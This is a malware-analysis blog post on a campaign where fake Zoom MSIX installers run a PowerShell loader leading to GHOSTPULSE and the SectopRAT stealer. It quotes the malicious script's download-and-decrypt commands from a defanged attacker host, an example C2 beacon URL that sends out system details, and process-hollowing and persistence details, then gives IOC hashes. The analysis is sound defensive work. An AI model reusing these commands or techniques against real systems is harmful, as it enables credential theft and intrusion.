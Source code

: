 ```yaml
---
layout: post
title: SectopRAT Buffet with a side of GHOSTPULSE
date: 2024-05-08 22:00:00 +1030
description: 
image: 
category:
  - Theat_Hunting
  - Malware Analysis
tags:
  - malware_analysis
  - sectoprat
  - ghostpulse
  - msix
  - cyber_culture
  - C2
mermaid: true
img_path: /assets/img/
pin: true
---
```

![Zoom Installer](cyber_rat_tophat_700x300.jpg){: .shadow width="1200" height="630"}

---
## IN THE BEGINNING

Just another day in paradise with a fresh cup of coffee in hand, my Pomodoro clock ticking away 25 minutes, and the diffuser gently releasing its aroma. Fast forward a few and we are now looking at a campaign using signed MSIX App Packages disguised as legitimate installers for popular applications — Zoom Installer, in this case. Unbeknownst to the unsuspecting target, these seemingly innocent MSIX app packages conceal a malicious PowerShell script, setting off the multi-stage stealthy GHOSTPULSE loader, ultimately leading to the injection of a SectopRAT payload, a voracious .NET information stealer (aka ArechClient2), into `MSBuild.exe`{: .filepath}.

As described by MSFT, *"MSIX is a Windows app package format that combines the best features of MSI, .appx, App-V, and ClickOnce to provide a modern and reliable packaging experience"*. In Windows 10 and above, all applications are required to be signed with a valid code signing certificate. Regrettably, cheeky threat actors manage to acquire these certificates, and it's not uncommon for them to be traded in the deepest corners of the web.

Upon double-clicking `Zoom-x64.msix`{: .filepath}, an installation window promptly appears, mirroring the familiar interface of most other installers that users are accustomed to.

![Zoom Installer Window](Zoom-x64_execution.png){: .shadow }
_Zoom Installer Window - MSIX_

Upon the user's selection of `Install`, the latent PowerShell `script 2011_allso.ps1`{: .filepath} springs into action. It promptly initiates an initial GET request to the Command and Control (C2) server, signalling the commencement and concurrently transmitting system information from the compromised device—all cleverly encapsulated within the URL (Antivirus, Domain, Operating System). Without digging into the ins and outs of PSF, the malicious PowerShell script to be executed is defined within `config.json`{: .filepath} that is contained within the MSIX package.

![MSIX config](config_script.png){: .shadow }
_MSIX config.json_

**Example GET Request to the C2 Server:**
```console
hxxps[://]3010cars[.]xyz/?status=start&av=Windows Defender&domain=JUICYPANTS&os=Microsoft+Windows+10
```

## THE LATENT POWERSHELL SCRIPT
Venturing further into the intricacies of the PowerShell script, it becomes evident that the primary goal of `2011_allso.ps1`{: .filepath} is to retrieve a GPG-encrypted file named `robo-claim[.]site/order/allso.tar.gpg`{: .filepath}. Following this, the script decrypts the file and proceeds to execute `TPAutoConnect.exe`{: .filepath}, cunningly disguised as a renamed `vmtoolsd.exe`{: .filepath} binary. This binary, a featured component of the VMware user process, facilitates essential features like copy-paste, drag-and-drop within the VMware environment. A curious observer would also catch the passphrase `putin` being used for decryption.

![PowerShell Script Flow](script_flow.png){: .shadow }
_PowerShell Script Breakout_

**PowerShell Snippet - Retrieiving and Decrypting SectopRAT:**
```powershell
$url = "hxxps[://]robo-claim[.]site/order/allso.tar.gpg"
$outputPath = "$env:APPDATA\$xxx.gpg"
Invoke-WebRequest -Uri $url -OutFile $outputPath
echo 'putin' | .$env:APPDATA\gpg.exe --batch --yes --passphrase-fd 0 --decrypt --output $env:APPDATA\$xxx.rar $env:APPDATA\$xxx.gpg
```

![VMware Digital Signature](vmware_digital_sig.png){: .shadow }
_VMware Digital Signature_

At this stage, it is fair to asses that the `TPAutoConnect.exe (vmtoolsd.exe)`{: .filepath} binary may be being used to perform some form of sideloading. 

## DECRYPTING THE TAR ARCHIVE

Decryption of the TAR file spills the beans - inside, we've got `TPAutoConnect.exe (vmtoolsd.exe)`{: .filepath}, a bunch of DLLs, and the unexpected guest, `fibrolite.dwg`{: .filepath}. Doesn't quite fit the Zoom Installer vibe, right? Now, check out `fibrolite.dwg`{: .filepath} magic numbers – `89 50 4E 47 0D 0A 1A 0A`, initially screaming a .png graphic file. But, hold your horses. When `TPAutoConnect.exe`{: .filepath} takes the stage, it decrypts `fibrolite.dwg`{: .filepath} and pulls off a sneaky move by creating a suspended `MSBuild.exe`{: .filepath} process. This innocent-looking process, though, gets the VIP treatment with a SectopRAT injection. Big shoutout to the folks at [Elastic Security Labs](https://www.elastic.co/security-labs/ghostpulse-haunts-victims-using-defense-evasion-bag-o-tricks); they've dissected GHOSTPULSE and its stages like a boss. If you're itching for a deeper dive, their breakdown is a must-read. Everything mentioned here is like the calling card of the same sneaky campaign.

A sanity check of all the .DLL's with Sigcheck we see that digital signature of `glib-2.0.dll`{: .filepath} could not be verified. This could indicate tampering and/or corruption, ultimately the integrity of the DLL is not guaranteed; most likely our sideloading specimen

![Sigcheck](sigcheck.png){: .shadow }
_Sigcheck Signature could not be verified_

## THE JUICE - SECTOPRAT

Using the [Ghost Pulse Payload Extractor](https://github.com/elastic/labs-releases/tree/main/tools/ghostpulse), we are able to extract the payload from the encrypted GHOSTPULSE file.

![Ghostpulse Payload Extractor](ghost_pulse_extractor.png){: .shadow width="1200"}
_Ghostpulse Payload Extractor_

![PEStudio](pe_studio.png){: .shadow width="1200"}
_PEStudio - Ghost Pulse Payload_

Diving into the .NET binary without de-obfuscating, we can clearly see the information stealing capabilities of SectopRAT; scanning for Browsers, Wallets, Accounts, Processes, and files to name a few.

![SectopRAT Scan Critera](scan_details_criteria.png){: .shadow }
_SectopRAT Scan Criteria_

![SectopRAT Scan Arguments](scan_details_args.png){: .shadow }
_SectopRAT Scan Arguments_

When executed the malware creates the suspended child process `MSBuild.exe`{: .filepath}. This process appears to be hollowed out with the SectopRAT payload. A couple of indicators include a hanging `MSBuild.exe`{: .filepath} process with no arguments,  the `Current directory` path of `MSBuild.exe`{: .filepath} being the path the malware was executed from, and by scanning running processes with pe-sieve (developed by @hasherezade), it identified that the PE `MSBuild.exe`{: .filepath} was replaced, reference by the `is_pe_replaced: 1` result. And of course, simply dumping this process and doing analysis would reveal much of what has already been mentioned.

Of note, as part of the encryption process, the environment variable `KKHIECNPOYLCZOXDETZX` is created which points to an encrypted file at `%LOCALAPPDATA%\Temp\232135f6`{: .filepath}

![SectopRAT Scan Arguments](hollow_msbuild.png){: .shadow }
_Possible Process Hollowing of a suspended process_

In this sample, the final payload calls out to `hxxps[:]//pastebin[.]com/raw/cLika3dt`{: .filepath} which contained the C2 address `138.201.125[.]92`{: .filepath}. This C2 was also identified in the network connections upon execution of the malware. along with the string `AfkSystem`. Both indicators indicative of other previously reported SectopRAT samples in the wild.

![Pastebin](pastebin.png){: .shadow }
_C2 Address referenced within Pastebin_

![C2](network_connection.png){: .shadow }
_C2 Network Connections_
  
And lastly, to ensure it lives to fight another day the malware establishes persistence by creating the startup item `Dby_control.lnk`{: .filepath} which points to the original `TPAutoConnect.exe`{: .filepath} mentioned earlier.


---
## OBSERVATIONS

| Context            | Observable                                                                                                       | Indicator Type |
| ------------------ | ---------------------------------------------------------------------------------------------------------------- | -------------- |
| C2 within Pastebin | 138.201.125[.]92:15647                                                                                           | IP-v4          |
| Pastebin           | hxxps[://]pastebin[.]com/raw/cLika3dt                                                                            | url            |
| PS Script          | 2011_allso.ps1<br>**SHA256:** c6f8edcb9bff1efe62dcaddc90c27df67bf3f64d951a5f08089f2f1c5a7981d1                   | File           |
| Persistence        | %AppData%\Microsoft\Windows\Start Menu\Programs\Startup\Dby_control.lnk                                          | File           |
| Persistence        | TPAutoConnect.exe (vmtoolsd.exe)<br>**SHA256:** bf933ccf86c55fc328e343b55dbf2e8ebd528e8a0a54f8f659cd0d4b4f261f26 | File           |
| SecropRAT          | fibrolite.dwg<br>**SHA256:** f88d3d755ed1d8e79165c74c2c8fc7eefc8df2e909be73adfe3822f65107e5cc                    | File           |
| MSIX               | Zoom-x64.msix<br>**SHA256:** 2ea9ab31124e6639b635ef605473d433b99536d6465e23ab8f0375db35244dce                    | File           |
| Encryped Archive   | allso.tar.gpg<br>**SHA256:** d92178fb77200cabb9a7b36f0b93bcb7f0edd47acaafabca4a420a68f0eefcfd                    | File           |
| Sideload DLL       | glib-2.0.dll<br>**SHA256:** 32ef20dbf95940528359604947d2ed36bc81e2832000ee32af375e0fb3821684                     | File           |





---
### References:

* https://github.com/elastic/labs-releases/tree/main/nightMARE
* https://www.google.com/search?channel=fs&client=ubuntu-sn&q=ghost+pulse+elastic+labs
